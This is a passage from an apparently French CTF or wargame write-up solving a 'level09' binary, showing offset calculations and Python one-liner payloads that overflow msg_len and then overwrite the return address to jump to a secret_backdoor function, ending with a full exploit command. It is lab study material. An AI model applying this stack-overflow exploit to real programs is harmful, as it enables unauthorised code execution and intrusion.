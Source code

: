 **Calcul :**
- `set_username()` écrit à offset 140
- `msg_len` est à offset 180
- Distance : `180 - 140 = 40 octets`

**Payload :**
```bash
python -c "print('A'*40 + '\xf4\x01\x00\x00')"
```

**Décomposition :**
- `'A'*40` : Padding de 40 octets (offset 140 → 179)
- `'\xf4\x01\x00\x00'` : Valeur 500 (0x01f4) en little-endian

**Résultat :** `msg_len = 500` au lieu de 140 !

### Étape 3 : Second payload (Message)

**Objectif :** Écraser la return address

**Calcul :**
- Return address est à offset ~200
- Avec `msg_len = 500`, on peut écrire 500 octets
- On remplit 200 octets puis on place l'adresse de `secret_backdoor`

**Payload :**
```bash
python -c "print('B'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"
```

**Décomposition :**
- `'B'*200` : Padding jusqu'à la return address
- `'\x8c\x48\x55\x55\x55\x55\x00\x00'` : Adresse `0x55555555488c` en little-endian

### Étape 4 : Garder stdin ouvert

```bash
cat
```

Cette commande garde stdin ouvert pour qu'on puisse envoyer des commandes à `secret_backdoor()` après la redirection.

---

## Solution complète

### Exploitation en une seule commande

```bash
(python -c "print('A'*40 + '\xf4\x01\x00\x00')"; python -c "print('B'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; cat) | ./level09
```

### Explication étape par étape
